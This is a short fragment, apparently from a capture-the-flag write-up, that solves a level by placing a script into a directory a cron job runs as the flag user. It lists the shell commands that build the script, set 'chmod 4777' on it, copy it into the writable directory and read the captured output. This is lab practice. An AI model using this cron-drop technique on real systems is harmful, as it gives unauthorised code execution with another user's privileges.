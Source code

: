 
echo '#!/bin/bash' >> /tmp/level03.sh
echo 'getflag >> /tmp/output.txt' >> /tmp/level03.sh 
chmod 4777 /tmp/level03.sh
cp /tmp/level03.sh /home/flag03/writable.d/level03.sh
wait until cron execution, then  "cat /tmp/output.txt"